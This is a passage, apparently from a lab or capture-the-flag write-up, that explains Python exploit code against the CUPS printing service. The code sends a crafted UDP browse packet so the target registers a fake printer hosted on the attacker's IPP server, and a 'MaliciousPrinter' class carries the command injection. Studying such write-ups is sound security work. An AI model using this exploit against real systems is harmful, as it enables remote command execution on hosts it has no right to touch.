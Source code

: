 ```
    while True:
        print(f"\r{seconds} elapsed", end="", flush=True)
        time.sleep(1)
        seconds += 1

```

It starts an IPP server hosting information about a malicious printer. Then it sends a `browsed` packet to trigger the request, and

The `browse` packet is built off the specification [here](https://opensource.apple.com/source/cups/cups-327/cups/doc/help/spec-browsing.html):

```

def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print(f"Sending udp packet to {ip}:{port}...")

    # Get a random number between 0 and 100
    printer_type = 2
    printer_state = '3'
    printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
    printer_location = '"You Have Been Hacked"'
    printer_info = '"HACKED"'
    printer_model = '"HP LaserJet 1020"'
    packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(packet.encode('utf-8'), (ip, port))

def run_server(server):
    with ServerContext(server):
        try:
            while True:
                time.sleep(.5)
        except KeyboardInterrupt:
            pass

    server.shutdown()

```

This is sending a UDP packet to the CUPs port to trigger an IPP request back to me.

The `MaliciousPrinter` class is mostly a set of normal attributes except the last one, which is where the injection happens:

```

class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()
    
    def printer_list_attributes(self):
        attr = {
            # rfc2911 section 4.4
            (   
                SectionEnum.printer,
                b'printer-uri-supported',
                TagEnum.uri
            ): [self.printer_uri],
            (
            ...[snip]...
            (
```